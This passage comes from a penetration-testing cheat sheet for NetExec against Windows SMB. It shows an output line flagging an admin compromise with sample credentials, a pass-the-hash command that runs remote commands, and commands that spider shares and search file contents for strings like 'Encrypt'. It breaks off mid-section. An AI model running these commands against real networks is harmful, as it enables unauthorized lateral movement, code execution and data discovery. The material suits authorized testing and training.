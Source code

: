 If it has `(Pw3d!)` at the end → Local `Administrator` account.

{% code overflow="wrap" %}
```bash
...
SMB 192.168.X.95 445 SECURE [+] secura.yzx\bob:Pass123! (Pwn3d!)
```
{% endcode %}
{% endtab %}
{% endtabs %}

### RCE

{% tabs %}
{% tab title="PtH" %}
NetExec uses `impacket-psexec` to perform the Pass-the-Hash attack:

```bash
nxc smb <target> -u <user> --H <hash> -X <command>
```
{% endtab %}
{% endtabs %}

### Spidering

{% tabs %}
{% tab title="Filters" %}
```bash
# Only spider files, enable file content searching
nxc smb <ip> -u <user> -p <pass> --spider <share> --only-files --content

# Spider a specific directory
nxc smb <ip> -u <user> -p <pass> --spider <share> --spider-folder <folder>
```
{% endtab %}

{% tab title="TXT Files" %}
```bash
nxc smb <ip> -u <user> -p <pass> --spider <share> --pattern txt
```
{% endtab %}

{% tab title="File Content" %}
```bash
nxc smb <ip> -u <user> -p <pass> --spider <share> --content --regex Encrypt
```
{% endtab %}

{% tab title="Recursive" %}
```bash
nxc smb <ip> -u <user> -p <pass> --spider <share> --regex . --depth 1
```
{% endtab %}

{% tab title="spider_plus" %}
List and dump all files all readable shares:
